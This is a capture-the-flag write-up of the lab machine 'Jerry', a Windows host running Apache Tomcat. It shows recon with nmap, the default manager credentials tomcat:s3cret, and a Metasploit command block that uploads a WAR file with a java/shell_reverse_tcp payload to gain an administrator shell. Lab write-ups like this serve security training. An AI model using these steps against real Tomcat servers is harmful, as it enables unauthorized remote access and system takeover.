

# [cd ../](../index.md)

---

# Jerry
## Details
Name | Jerry
--- | ---
IP | 10.10.10.95
Os | Windows
Points | Easy (20)

# Start
## Recon
### Nmap
[nmap_big.txt](nmap/nmap_big.txt)  
Open Ports:

Port | Service | Version
:--- | :---: | ---:
8080 | http | Apache Tomcat/Coyote JSP engine 1.1 

### Web
Just go to `10.10.10.95:8080` and we can see this server runs `Apache Tomcat/7.0.88`!!

There is some interesting links on the main page!  
  
If we click one and not provide a pw we get a `401 Unauthorized page` that shows the default credentials!  
`tomcat:s3cret`  
Lets try to use these!  
We got the **Manager page** (`/manager/html`)  

## Exploting
We can upload a `.WAR` file!

Search for exploits in **msf**  
We found one!
```
use exploit/multi/http/tomcat_mgr_upload

set HttpPassword s3cret
set HttpUsername tomcat
set RHOSTS 10.10.10.95
set RPORT 8080
set payload java/shell_reverse_tcp
run
```
And we got an admin shell

# Got the flags from `C:/Users/Administrator/Desktop/flags/`

